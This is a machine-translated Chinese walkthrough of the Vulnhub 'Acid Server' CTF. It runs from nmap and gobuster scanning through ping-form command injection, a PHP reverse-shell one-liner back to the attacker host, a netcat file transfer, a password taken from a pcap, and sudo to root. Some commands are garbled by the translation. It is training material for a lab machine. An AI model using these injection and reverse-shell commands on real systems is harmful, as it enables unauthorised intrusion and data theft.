# ACID:服务器(Vulnhub CTF 漫游)

> 原文：<https://infosecwriteups.com/acid-server-vulnhub-ctf-walkthrough-7630ce8eb104?source=collection_archive---------3----------------------->

虚拟机的名字是我们今天要解决的“ **Acid Server** ”。这是一个 Boot2Root 虚拟机。这是一个基于网络的虚拟机。

> 【https://www.vulnhub.com/entry/acid-server,125/】下载链接:
> 
> **目标:**将权限升级到 root 并获取旗帜。

# 渗透方法:

*   网络扫描(arp 扫描，Nmap)
*   目录暴力(gobuster)
*   利用网页上的操作系统命令漏洞获得反向外壳
*   导入 python 一行程序以获得交互式 shell
*   搜索并下载 pcap 文件
*   从 pcap 文件中窃取密码(Wireshark)
*   进入 shell 进行权限提升
*   切换用户(su)
*   获取 root 访问权限并捕获标志

1.  先从找目标开始。

> **arp-scan -l**



我们的目标是 **192.168.225.140**

2.现在，启动 nmap 扫描端口。

> **nmap-p--A-T4 192 . 168 . 225 . 140**



Nmap 结果显示只有一个开放端口，即 **33447** ，提供 **HTTP** 的服务。请注意，端口 80 没有打开，这意味着如果我们想在浏览器中打开这个 IP 地址，那么我们必须使用端口号，因为默认情况下它不会打开。所以现在使用端口号 **33447** 打开网页。



从上图我们可以看到，页面上只有一个标题和一段引文；没有别的，但是如果你看浏览器上的标签，它说“**/挑战**”。这可以是一个目录。让我们打开它。



我们得到了这个登录页面。

3.让我们试试 gobuster，用小字典(/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt)了解一下这个目录。

> **gobuster dir-u**[**http://192 . 168 . 225 . 140:33447/Challenge**](http://192.168.225.140:33447/Challenge)**-x PHP-w/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt-t 100 2>/dev/null**

在这里，我使用**-x php "**来搜索带有 PHP 扩展名的文件。

**注意:" 2**>/**dev**/**null "***会过滤掉错误，这样就不会输出到你的控制台。*

**

*我试了每一个目录，但唯一的**cake.php**看起来有用。让我们在浏览器中打开它。*

**

*当你打开 cake.php，页面上写着**“啊，汉……任重而道远..哥们:-)”。**但是仔细看你会发现 **/Magic_Box** 写在浏览器标签上。就像/挑战一样打开吧。*

**

*打开后，这个页面说我们没有权限访问它。*

*4.好吧！那我们就在这个目录上试试 gobuster 吧。*

> ***gobuster dir-u**[**http://192 . 168 . 225 . 140:33447/Challenge/Magic _ Box**](http://192.168.225.140:33447/Challenge/Magic_Box)**-x PHP-w/usr/share/word lists/dirbuster/directory-list-2.3-medium . txt-t 100 2>/dev/null***

**

*在所有目录中，唯一的**command.php**看起来很有用。让我们在浏览器中打开它。*

**

*打开后，你会发现一个 **ping** 入口，这意味着你可以从这里 ping 任何 IP 地址。尝试 ping 任何 IP，并在页面源上确认结果。*

*这表明有可能进行**操作系统命令注入**，为了确保万无一失，让我们运行任意命令，如“； **ls"** 如下图所示。*

**

*在页面源上，您可以确认 **ls** 命令的结果。*

**

*5.正如页面标题所说的**“逆功夫”**，是对**逆壳**的暗示。因此，没有任何延迟，在攻击机器上运行一个监听器 **(nc -nvlp 8000)** ，并在页面中输入以下命令来获取反向 shell。*

> ***PHP-r ' $ sock = fsockopen(" 192 . 168 . 225 . 139 "，8000)；exec("/bin/sh-I<&3>&3 2>&3 ")；"***

*用您的端口替换 IP 和侦听器端口。*

**

*我们用***www-data***user 得到 shell。另外，这是一个非交互式的 shell，我们需要一个交互式的。如果没有交互，操作系统就无法询问密码，su 也无法工作。*

*6.运行以下命令获取交互式 shell。*

> ***python-c ' import pty；pty.spawn("/bin/bash")'***

**

*让我们开始检查系统中的文件。我在系统根目录下发现了一个不寻常的目录“**s . bin*”***。它包含一个文件“**investigate.php*”***，其内容要求我们像一个调查员一样抓住罪犯。*

**

*在进入 **/home** 目录后，我找到了一个名为“**萨曼**的本地用户。这可能是一个有用的用户，但我们没有密码登录。让我们试着找到密码。*

**

*进一步查看文件系统，我发现在 **/sbin** 目录中有一个目录 **"raw_vs_isi"** 。它包含一个 **pcap** 文件 **"hint.pcapng"** *。**

*7.用 **netcat** 把这个文件传输到你自己的攻击机器上:*

> ***在攻击机上:** nc -lp 1234 > pcap*
> 
> ***在目标机器上:**NC 192 . 168 . 225 . 139 1234<hint . PCA png*

*用 Wireshark 打开这个文件后，我在 TCP 流中发现了一个对话。只需**右键点击**这些被过滤的数据包，然后点击**跟随**选项，然后选择 **TCP 流**。*

****

*在对话中，其中一人说**“Saman，现在他的别名是 1337 hax0r”**，这意味着 **saman** 是用户名(也可以在/home 目录中找到)，而 **1337hax0r** 可以是密码。让我们试一试。*

**

*我们现在以 saman 的身份登录。这里，“**sudo-l”**命令的结果告诉我们，我们可以作为 root 用户运行任何命令。*

*8.让我们尝试将用户切换到根用户。*

> ***须藤素***

**

*所以我们得到了根带着**祝贺**的横幅。*

*9.我们还是得找到旗子。从根目录的主目录开始。它只包含一个文件***flag . txt****。**

> ***猫旗. txt***

**

*打开文件后，我们会收到一条消息，提示我们成功完成了挑战。*

***注意:**从第一个网页开始，有多种方法可以完成这项挑战。鼓励读者尝试用其他方法找到旗子。*

# *我希望，这篇文章能帮助你轻松解决这个 CTF，你一定学到了一些新东西。*

# *敬请关注更多此类帖子！！！*